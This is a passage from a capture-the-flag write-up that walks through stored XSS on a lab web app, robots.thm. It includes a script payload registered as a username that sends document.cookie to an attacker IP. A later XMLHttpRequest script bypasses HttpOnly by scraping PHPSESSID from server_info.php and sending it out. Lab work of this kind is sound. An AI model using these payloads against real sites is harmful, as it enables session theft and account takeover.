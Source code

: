 ![Pasted image 20250314181227.png](../../IMAGES/Pasted%20image%2020250314181227.png)

There we go, XSS is possible in this page, we can craft a payload to get admin
cookie and bypass the login page, let's register a username with these credentials:

```
<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>:01/01/2000
```

Now, we must convert this to get our md5 password:

```
echo -n "<script>fetch("http://10.6.34.159:8000/?cookie="+document.cookie)</script>0101" | md5sum
```

If we try getting our cookie, we are unable to do so, due to this:


![Pasted image 20250317143641.png](../../IMAGES/Pasted%20image%2020250317143641.png)

The `HttpOnly` flag is set in the server, this prevents JS to access the cookie, we can exploit this in other way though, let's use this script:

```js
var url = "http://robots.thm/harm/to/self/server_info.php";
var attacker = "http://10.6.34.159/exfil";
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var match = xhr.responseText.match(/PHPSESSID=([a-zA-Z0-9]+)/);
        if (match) {
            fetch(attacker + "?cookie=" + match[1]);
        }
    }
}

xhr.open('GET', url, true);
xhr.send(null);
```
